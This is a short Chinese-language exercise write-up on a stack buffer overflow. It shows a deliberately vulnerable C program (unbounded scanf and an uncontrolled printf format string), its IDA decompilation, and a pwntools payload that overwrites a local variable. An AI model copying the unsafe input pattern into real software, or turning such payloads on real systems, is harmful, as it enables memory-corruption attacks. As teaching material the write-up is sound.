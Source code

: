 # 栈溢出例子

## 前言
本来是格式化字符串的例子，这里用栈溢出试下

## 源码&分析
源码如下：  
```c
#include <stdio.h>
int main(void)
 { int flag = 0;
 int *p = &flag; char a[100];
    scanf("%s",a);
    printf(a);

    if(flag == 2000)
    {
            printf("good!!\n");
    }

    return 0;
}
```

在kali64位下编译成可执行文件，接着用IDA反编译下，发现：  
```c
  char format; // [sp+0h] [bp-70h]@1    
  int v5; // [sp+64h] [bp-Ch]@1
  int *v6; // [sp+68h] [bp-8h]@1
```
format就是 a，v5是 flag  
这样就能算出偏移是 0x64，我们的payload就是要改掉flag的值，改成2000  

## payload
payload如下：  
```python
#! python3
# coding:utf8

from pwn import *

payload = 'a'*0x64 + p64(2000)
conn = process("./b")
conn.sendline(payload)
conn.interactive()
```


2017/9/2  
